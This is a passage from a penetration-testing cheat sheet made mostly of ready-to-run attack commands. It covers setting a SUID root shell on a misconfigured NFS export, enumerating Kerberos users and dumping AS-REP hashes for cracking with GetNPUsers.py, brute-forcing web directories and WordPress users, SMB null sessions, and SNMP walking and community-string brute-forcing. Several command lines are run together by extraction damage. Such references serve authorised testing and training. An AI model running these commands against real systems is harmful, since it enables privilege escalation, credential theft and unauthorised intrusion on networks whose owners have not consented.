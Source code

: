 List NFS exported shares. If 'rw,no\_root\_squash' is present, upload and execute [sid-shell](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c)​

```bash
showmount -e 192.168.110.102
chown root:root sid-shell; chmod +s sid-shell
```

### Kerberos Enumeration <a id="kerberos-enumeration"></a>

```bash
# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

# TGT (from https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
GetNPUsers.py  DOMAIN.local/ -usersfile $usersfile -dc-ip $target -format hashcat -outputfile hashes.txt
```

### HTTP Brute-Force & Vulnerability Scanning <a id="http-brute-force-and-vulnerability-scanning"></a>

```text
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobustertarget=10.0.0.1; nikto -h http://$target:80 | tee $target-niktotarget=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

### RPC / NetBios / SMB <a id="rpc-netbios-smb"></a>

```bash
rpcinfo -p $TARGETnbtscan $TARGET​#list shares
smbclient -L //$TARGET -U ""​# null sessionrpcclient -U "" $TARGET
smbclient -L //$TARGETenum4linux $TARGET
```

### SNMP <a id="snmp"></a>

```bash
# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

​# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2​

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5​

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1​

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27​

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3​

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

​# brute-force community strings
onesixtyone -i snmp-ips.txt -c community.txt​
snmp-check $TARGET
```
